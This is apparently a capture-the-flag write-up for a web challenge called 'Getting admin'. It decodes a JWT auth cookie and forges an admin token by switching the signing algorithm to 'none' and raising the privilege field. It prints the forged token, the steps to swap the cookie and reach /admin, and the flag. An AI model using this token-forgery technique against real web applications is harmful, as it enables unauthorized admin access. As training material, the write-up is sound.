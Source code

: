 #Getting admin

##300 points - First solved by clubby789

Challenge instance ready at `88.198.219.20:30807`.

See if you can get an admin account.

##Steps
Since we are logged in from the previous challange lets look at our auth cookie since the login is preserved.

`auth:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU"`

This is a `JWT` (*JSON Web Token*)
Lets look at it with [CyberChef](https://gchq.github.io/CyberChef/)

```
{
    "user": "Harry",
    "privilege": 1
}
```

Since we now get the structur of the token lets manipulate it and convert it to a `JWT`:
Remove the Key in *CC* and set the signing algorithm to `none`
Then generate the new `JWT` and add the last part from the first `JWT`

```
{"user": "admin", "privilege": 2}
```
**JWT**
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJwcml2aWxlZ2UiOjIsImlhdCI6MTU5MTc3NjA4Nn0.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```

Now lets change the `auth-cookie` to the new `JWT` and access the `/admin` section.

##Flag
ractf{j4va5cr1pt_w3b_t0ken}